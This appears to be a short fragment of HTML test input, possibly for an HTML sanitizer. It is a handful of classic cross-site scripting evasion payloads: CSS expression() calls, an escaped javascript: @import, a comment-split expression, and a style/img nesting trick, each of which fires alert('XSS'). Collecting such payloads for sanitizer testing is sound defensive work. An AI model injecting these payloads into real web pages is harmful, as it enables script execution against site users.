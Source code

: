

<div style="width: expression(alert('XSS'));">
<style>@im\port'\ja\vasc\ript:alert("XSS")';</style>
<img style="xss:expr/*XSS*/ession(alert('XSS'))">
<img src="x">
<style><img src="</style><img src="x">
